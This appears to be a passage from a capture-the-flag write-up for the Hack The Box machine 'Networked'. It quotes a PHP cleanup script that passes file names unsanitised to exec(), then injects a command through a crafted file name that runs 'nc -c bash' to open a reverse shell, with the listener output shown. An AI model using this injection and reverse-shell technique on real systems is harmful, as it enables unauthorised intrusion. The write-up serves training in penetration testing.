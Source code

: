```php
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

This script goes over `/var/www/html/uploads` and filters out specific file types.

But this line is especially interesting:

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

We should likely be able to get command injection by controlling the `$value` variable.

Lets exploit this by using:

```
bash-4.2$ touch '; nc -c bash 10.10.14.216 7777'
```

In three minutes or less we should have our shell back as guly:

```
┌──(ryan㉿kali)-[~/HTB/Networked]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.141.31] 47528
whoami
guly
hostname
networked.htb
python -c 'import pty;pty.spawn("/bin/bash")'

[guly@networked ~]$ 
```

We can now grab the user.txt flag:

![networked_user_flag.png](../assets/networked_assets/networked_user_flag.png)
